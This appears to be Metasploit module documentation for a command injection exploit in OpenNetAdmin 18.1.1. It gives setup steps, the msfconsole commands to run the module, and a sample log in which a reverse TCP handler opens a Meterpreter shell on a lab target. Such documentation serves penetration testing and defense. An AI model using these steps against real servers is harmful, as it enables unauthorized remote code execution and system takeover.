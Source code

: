 ## Description

OpenNetAdmin provides a database managed inventory of your IP network. Each subnet, host, and IP can be tracked via a centralized AJAX enabled web interface that can help reduce tracking errors.
This module exploits a command injection in OpenNetAdmin. The vulnerability exists on the `tooltips.inc.php` component, due to the insecure usage of the `shell_exec()` PHP function.

## Vulnerable Application

This module has been tested with [OpenNetAdmin 18.1.1](https://github.com/opennetadmin/ona/releases/tag/v18.1.1)

## Setup

https://github.com/opennetadmin/ona/wiki/Install

## Verification

Launch metasploit and set the appropriate options:
>
> * [ ]  Start `msfconsole`
> * [ ]  `use exploit/unix/webapp/opennetadmin_ping_cmd_injection`
> * [ ]  `set RHOSTS <rhosts>`
> * [ ]  `set LHOST <lhost>`
> * [ ]  `set VHOST <hostname>`
> * [ ]  `exploit`

## Options

**VHOST**

The HTTP server virtual host. You will probably need to configure this as well, even though it is set as optional.

## Scenarios

 Tested OpenNetAdmin 18.1.1 on Ubuntu 19.10 x64

```
msf5 > use exploit/unix/webapp/opennetadmin_ping_cmd_injection
msf5 exploit(opennetadmin_ping_cmd_injection) > set RHOSTS 172.16.172.152
RHOSTS => 172.16.172.152
msf5 exploit(opennetadmin_ping_cmd_injection) > set VHOST example.com
VHOST => example.com
msf5 exploit(opennetadmin_ping_cmd_injection) > set LHOST 172.16.172.1
LHOST => 172.16.172.1
msf5 exploit(opennetadmin_ping_cmd_injection) > exploit
[*] Started reverse TCP handler on 172.16.172.1:4444
[*] Exploiting...
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Meterpreter session 1 opened (172.16.172.1:4444 -> 172.16.172.152:38590) at 2019-12-10 02:38:52 +0300
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Command Stager progress - 100.12% done (810/809 bytes)

meterpreter >
```
